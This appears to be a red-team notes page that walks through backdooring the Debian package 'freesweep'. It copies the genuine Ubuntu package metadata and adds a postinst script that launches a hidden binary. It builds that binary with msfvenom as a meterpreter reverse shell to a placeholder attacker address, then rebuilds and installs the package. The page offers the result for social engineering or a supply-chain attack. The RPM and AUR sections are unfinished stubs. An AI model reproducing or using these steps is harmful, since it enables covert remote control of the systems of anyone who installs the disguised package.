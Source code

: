```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - metasploit-framework
  - linux
---
```

# Trojanized Software Package

> [!TIP]
> While the target will install the backdoored software package with elevated privileges. You can include other vectors such as, elevated persistence.

## 01 - DEB

Create a temporary directory.

```
userware@hackware-os:~$ cd $(mktemp -d)
```

Download a DEB package. We will use `freesweep` as an example.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt download freesweep

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt-get download freesweep
```

Extract the packing to a working directory then create a `DEBIAN` directory to include additional "features".

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ ls
freesweep_1.0.2-1_amd64.deb

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg -x freesweep_1.0.2-1_amd64.deb work

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ mkdir work/DEBIAN
```

> [!IMPORTANT]
> Do not skip this step.
> > [!TIP]
> > To copy the contents in `control` file then execute either `dpkg-deb -I file.deb control` or `apt-cache show <package>` as reference.

In the `DEBIAN` directory, create a text file named `control` with the contents.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/control << EOF
Package: freesweep
Architecture: amd64
Version: 1.0.2-1
Priority: optional
Section: universe/games
Origin: Ubuntu
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Original-Maintainer: Debian Games Team <pkg-games-devel@lists.alioth.debian.org>
Description: text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer.  Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
EOF
```

Then create a post-installation script (`postinst`) that will trigger the payload.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/postinst << EOF
#!/bin/sh
sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
EOF

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ chmod 755 work/DEBIAN/postinst
```

Generate a payload for a reverse connection.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -f elf -o work/usr/games/freesweep_scores
```

Build the `.deb` package.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg-deb -b work trojanized_freesweep.deb
dpkg-deb: building package 'freesweep' in 'trojanized_freesweep.deb'.
```

Run `lintian` to check if there any problems to the software package. We're only concerned about the post installation script (`postinst`) and the payload (`freesweep_scores`) if there was an error (`E`). For the payload's `statically-linked-binary` error message is safe to ignore. Now the payload is ready to deliver for social engineering or cause a supply chain attack.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ lintian -c trojanized_freesweep.deb 
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/README.md]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/changelog.Debian.gz]
E: freesweep: bad-owner-for-doc-file ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
E: freesweep: file-in-etc-not-marked-as-conffile [etc/sweeprc]
E: freesweep: mail-address-loops-or-bounces Maintainer ubuntu-devel-discuss@lists.ubuntu.com
E: freesweep: statically-linked-binary [usr/games/freesweep_scores]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/sweeprc]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [usr/]
E: freesweep: wrong-file-owner-uid-or-gid ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
W: freesweep: elevated-privileges 2755 userware/userware [usr/games/freesweep]
W: freesweep: maintainer-script-ignores-errors [postinst]
W: freesweep: no-manual-page [usr/games/freesweep_scores]
W: freesweep: non-standard-file-perm 0664 != 0644 [usr/games/freesweep_scores]
W: freesweep: undeclared-elf-prerequisites (libc.so.6 libncurses.so.6 libtinfo.so.6) [usr/games/freesweep]
W: freesweep: unknown-section universe/games
```

To execute the payload to retrieve a connection from the shell handler.

```
$ sudo dpkg -i trojanized_freesweep.deb

$ sudo apt install ./trojanized_freesweep.deb
```

## 02 - RPM

TODO: Fill in the steps for the RPM package.

```
$ sudo rpm -Uvh payload.rpm
```

## 03 - AUR

TODO: Fill in the steps for the AUR package.

```

```

---
## References

### Backlinks

- [[Package File Templates]]

### DMCXBlue

- [DMCXBlue: Installer Packages](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/installer-packages)

### Metasploit Unleashed

- [Metasploit Unleashed: Binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)